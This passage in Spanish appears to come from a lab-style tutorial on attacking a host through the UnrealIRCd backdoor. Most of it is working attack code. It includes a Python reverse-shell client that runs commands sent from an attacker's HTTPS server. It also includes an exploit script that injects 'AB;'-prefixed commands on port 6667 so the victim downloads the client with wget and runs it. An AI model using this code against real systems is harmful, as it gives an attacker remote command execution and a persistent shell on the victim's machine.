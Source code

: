 Ejecuta con:

```bash
python3 https_shell_server.py
```

---

#### 🖥️ Cliente (víctima) – Shell reversa en Python

Guarda como `https_shell_client.py`:

```python
import requests
import subprocess
import time

server_url = "https://192.168.56.1:8443"  # IP del atacante
verify_ssl = False

while True:
    try:
        comando = requests.get(server_url, verify=verify_ssl).text.strip()
        if comando == "exit":
            break
        salida = subprocess.getoutput(comando)
        requests.post(server_url, data=salida.encode(), verify=verify_ssl)
    except Exception as e:
        print("[!] Error:", e)
    time.sleep(5)
```

---

### Enviar la carga útil con la vulnerabilidad de UnrealIRCd

Ya que podemos ejecutar cualquier comando vía la backdoor, vamos a lanzar el **cliente de shell reversa desde el atacante hacia la víctima**.

---

#### 🔥 Payload final (exploit)

En Kali, crea un comando que envíe `https_shell_client.py` a la víctima y lo ejecute.

#### 🪄 Paso a paso:

1. Crea un servidor HTTP simple para que la víctima descargue el script:

```bash
python3 -m http.server 8000
```

2. Enviar el comando usando la backdoor UnrealIRCd:

```python
import socket

def enviar_payload(target_ip, comando):
    payload = f"AB;{comando}\n"
    s = socket.socket()
    s.connect((target_ip, 6667))
    s.send(payload.encode())
    s.close()

# Comando para descargar y ejecutar el cliente reverse shell
cmd = "wget http://192.168.56.1:8000/https_shell_client.py -O /tmp/a.py; python3 /tmp/a.py"
enviar_payload("192.168.56.102", cmd)
```